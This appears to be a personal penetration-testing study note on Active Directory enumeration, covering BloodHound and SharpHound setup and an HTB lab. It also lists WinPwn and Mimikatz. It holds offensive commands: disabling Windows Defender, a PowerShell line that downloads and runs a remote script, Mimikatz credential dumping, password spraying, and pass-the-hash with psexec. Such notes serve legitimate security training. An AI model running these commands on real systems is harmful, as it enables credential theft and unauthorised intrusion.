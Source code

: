 ### Tools for Active Directory Enumeration

- Bloodhound (https://github.com/BloodHoundAD/BloodHound)
  - Bloodhound 4.2!!!

  ```bash
  sudo apt install neo4j
  sudo neo4j start # or sudo neo4j console
  # Navigate to http://localhost:7474
  # default credentials: neo4j:neo4j
  # Install Bloodhound
  wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-linux-x64.zip
  unzip BloodHound-linux-x64.zip
  cd BloodHound-linux-x64
  ./BloodHound --disable-gpu-sandbox&
  # 
  # On windows machine import the data
  # Download SharpHound
  https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip

  .\SharpHound.exe
  # Upload data to Bloodhound
  # On the linux machine
  pip3 install uploadserver
  python3 -m uploadserver 80
  # Upload and Import data on URL http://<linux-ip>/upload
  # Drag and drop the zip file into the bloodhound web interface
  # After upload, go to Analisis
  ```

**DONE** Own HTB Sauna machine and use Bloodhound
  https://ippsec.rocks  - search for sauna

- WinPwn (https://github.com/S3cur3Th1sSh1t/WinPwn)
- ADRecon
- MimiKatz

  ```powershell
  # Run as Administrator
  # Turn off Windows Defender
  iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/Offline_WinPwn.ps1')
  # Run WinPwn
  winpwn
  # 16
  privilege::debug
  sekurlsa::logonpasswords
  # first option 3, then 2 (for password spraying)
  ```

  ```bash
  # On Kali using the hash
  impacket-psexec ...
  # Read the blog https://thehacker.recipes/ad/movement/ntlm/pth
  ```
